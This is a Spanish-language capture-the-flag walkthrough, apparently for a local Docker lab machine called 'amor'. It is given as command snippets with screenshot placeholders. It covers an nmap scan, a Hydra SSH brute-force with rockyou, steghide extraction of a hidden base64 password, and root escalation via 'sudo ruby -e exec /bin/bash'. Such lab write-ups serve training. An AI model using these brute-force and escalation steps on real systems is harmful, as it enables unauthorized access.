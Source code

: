 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh amor.tar
```

![[Pasted image 20250204221333.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250204221445.png]]

Nos metemos en la web:

![[Pasted image 20250204222448.png]]

Encontramos usuario carlota.

Fuerza Bruta con **Hydra**:

```Bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250205091518.png]]

Nos conectamos con **SSH**:

```Bash
ssh carlota@172.17.0.2
```

![[Pasted image 20250205091642.png]]


```Bash
/bin/bash -i
```

![[Pasted image 20250205092027.png]]

```Bash
ls
```

![[Pasted image 20250205092151.png]]

```Bash
cd
```

![[Pasted image 20250205092210.png]]

```Bash
ls
```

![[Pasted image 20250205092243.png]]

```Bash
cd
```

![[Pasted image 20250205092304.png]]

```Bash
ls
```

![[Pasted image 20250205092328.png]]

```Bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg imagen.jpg
```

![[Pasted image 20250206151843.png]]

```Bash
ls
```

![[Pasted image 20250206152402.png]]

```Bash
steghide extract --stegofile imagen.jpg
```

![[Pasted image 20250206152432.png]]

```Bash
'blank'
```

![[Pasted image 20250206152442.png]]

![[Pasted image 20250206152137.png]]

```Bash
ls
```

![[Pasted image 20250206152205.png]]

```Bash
cat secret.txt
```

![[Pasted image 20250206152229.png]]

```Bash
echo ZXNsYWNhc2FkZXBpbnlwb24= | base64 -d
```

![[Pasted image 20250206152323.png]]

```Bash
cd /home
```

![[Pasted image 20250206153209.png]]

```Bash
ls
```

![[Pasted image 20250206153221.png]]

```Bash
su oscar
```

![[Pasted image 20250206153256.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250206153340.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250206153400.png]]

```Bash
sudo ruby -e 'exec "/bin/bash"'
```

![[Pasted image 20250206153543.png]]

```Bash
whoami
```

![[Pasted image 20250206153602.png]]


